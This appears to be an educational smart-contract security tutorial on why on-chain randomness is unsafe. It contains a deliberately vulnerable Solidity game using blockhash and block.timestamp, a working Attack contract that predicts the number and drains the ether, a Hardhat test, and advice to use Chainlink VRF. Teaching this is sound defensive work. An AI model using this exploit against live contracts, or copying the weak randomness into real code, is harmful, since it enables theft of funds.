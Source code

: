```yaml
---
description: 🤫 A cautionary tale to never use on-chain randomness
---
```


# Never on-chain randomness

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Randomness is a hard problem. Computers run code that is written by programmers, and follows a given sequence of steps. As such, it is extremely hard to design an algorithm that will give you a 'random' number, since that random number must be coming from an algorithm that follows a certain sequence of steps. Now, of course, some functions are better than others.

In this case, we will specifically look at why you cannot trust on-chain data as sources of randomness (and also why Chainlink VRF's).

### ⚒️ Contract

#### 👀 Overview

* We will build a game where there is a pack of cards.
* Each card has a number associated with it which ranges from `0 to 2²⁵⁶–1`
* Player will guess a number that is going to be picked up.
* The dealer will then at random pick up a card from the pack
* If someone correctly guesses the number, they win `0.1 ETH`
* We will hack this game&#x20;

**Setup a Hardhat project**

```shell
mkdir randomness
cd randomness
npm init --yes
npm install --save-dev hardhat @nomicfoundation/hardhat-toolbox

# bootstrap the hardhat project
npx hardhat
```

Make sure you select **`Create a Javascript Project`**

Let's first understand what **`abi.encodedPacked`** does.

We have previously used **`abi.encode`** in the Sophomore NFT tutorial, and earlier in the Merkle Tree tutorial.&#x20;

It is a way to concatenate multiple data types into a single bytes array, which can then be converted to a string.&#x20;

This is used to compute the **`tokenURI` ** of NFT collections often.&#x20;

**`encodePacked`** <mark style="color:orange;">takes this a step further, and concatenates multiple values into a single bytes array, but also gets rid of any padding and extra values.</mark>&#x20;

What does this mean?&#x20;

Let's take **`uint256` ** as an example.&#x20;

**`uint256` ** has 256 bits in it's number. But, if the value stored is just `1`, using `abi.encode` will create a string that has 255 `0`'s and only 1 `1`. Using `abi.encodePacked` will get rid of all the extra 0's, and just concatenate the value `1`.

For more information on ** `abi.encodePacked`**, go ahead and read this [article](https://medium.com/@libertylocked/what-are-abi-encoding-functions-in-solidity-0-4-24-c1a90b5ddce8)

Create a new file inside the **`randomness/contracts`**directory and call it **`Game.sol`**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract Game {
    constructor() payable {}

    // Randomly picks a number out of `0 to 2²⁵⁶–1`.
    function pickACard() private view returns (uint256) {
        // `abi.encodePacked` takes in the two params - `blockhash` and `block.timestamp`
        // and returns a byte array which further gets passed into keccak256 which returns `bytes32`
        // which is further converted to a `uint`.
        // keccak256 is a hashing function which takes in a bytes array and converts it into a bytes32
        uint256 pickedCard = uint256(
            keccak256(
                abi.encodePacked(blockhash(block.number), block.timestamp)
            )
        );
        return pickedCard;
    }

    // It begins the game by first choosing a random number by calling `pickACard`
    // It then verifies if the random number selected is equal to `_guess` passed by the player
    // If the player guessed the correct number, it sends the player `0.1 ether`
    function guess(uint256 _guess) public {
        uint256 _pickedCard = pickACard();
        if (_guess == _pickedCard) {
            (bool sent, ) = msg.sender.call{value: 0.1 ether}("");
            require(sent, "Failed to send ether");
        }
    }

    // Returns the balance of ether in the contract
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

Create a new file inside the **`randomness/contracts`**directory and call it **`Attack.sol`**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import "./Game.sol";

contract Attack {
    Game game;

    // Creates an instance of Game contract with the help of `gameAddress`
    constructor(address gameAddress) {
        game = Game(gameAddress);
    }

    // Attacks the `Game` contract by guessing the exact number because `blockhash` and `block.timestamp`
    // is accessible publicly
    function attack() public {
        // `abi.encodePacked` takes in the two params - `blockhash` and `block.timestamp`
        // and returns a byte array which further gets passed into keccak256 which returns `bytes32`
        // which is further converted to a `uint`.
        // keccak256 is a hashing function which takes in a bytes array and converts it into a bytes32
        uint256 _guess = uint256(
            keccak256(
                abi.encodePacked(blockhash(block.number), block.timestamp)
            )
        );
        game.guess(_guess);
    }

    // Gets called when the contract receives ether
    receive() external payable {}
}
```

* How the attack takes place is as follows:
  * The hacker calls the **`attack` ** function from the **`Attack.sol`**
  * **`attack` ** further guesses the number using the same method as **`Game.sol`** which is **`uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)))`**
  * Attacker is able to guess the same number because blockhash and block.timestamp is public information and everybody has access to it
  * The attacker then calls the **`guess` ** function from **`Game.sol`**
  * **`guess` ** first calls the **`pickACard`** function which generates the same number using **`uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)))`** because **`pickACard` ** and **`attack` ** were both called in the same block.
  * **`guess`** compares the numbers and they turn out to be the same.
  * **`guess` ** then sends the **`Attack.sol`  `0.1 ether`** and the game ends
  * Attacker is successfully able to guess the random number

#### Writing the Test

Create a new file inside the **`.../test`**directory and call it **`attack.js`**

```javascript
const { ethers, waffle } = require("hardhat");
const { expect } = require("chai");
const { BigNumber, utils } = require("ethers");

describe("Attack", function () {
  it("Should be able to guess the exact number", async function () {
    // Deploy the Game contract
    const Game = await ethers.getContractFactory("Game");
    const game = await Game.deploy({ value: utils.parseEther("0.1") });
    await game.deployed();

    console.log("Game contract address", game.address);

    // Deploy the attack contract
    const Attack = await ethers.getContractFactory("Attack");
    const attack = await Attack.deploy(game.address);

    console.log("Attack contract address", attack.address);

    // Attack the Game contract
    const tx = await attack.attack();
    await tx.wait();

    const balanceGame = await game.getBalance();
    // Balance of the Game contract should be 0
    expect(balanceGame).to.equal(BigNumber.from("0"));
  });
});

```

Now open up a terminal pointing to `randomness` folder and execute this

```sh
npx hardhat test
```

If all your tests passed, you have successfully completed the hack and were able to predict the randomness with 100% accuracy, so it wasn't really that random.

### 👮 Preventions

* Don't use `blockhash`, `block.timestamp`, or really any sort of on-chain data as sources of randomness
* You can use [Chainlink VRF's](https://docs.chain.link/docs/chainlink-vrf/) for true source of randomness
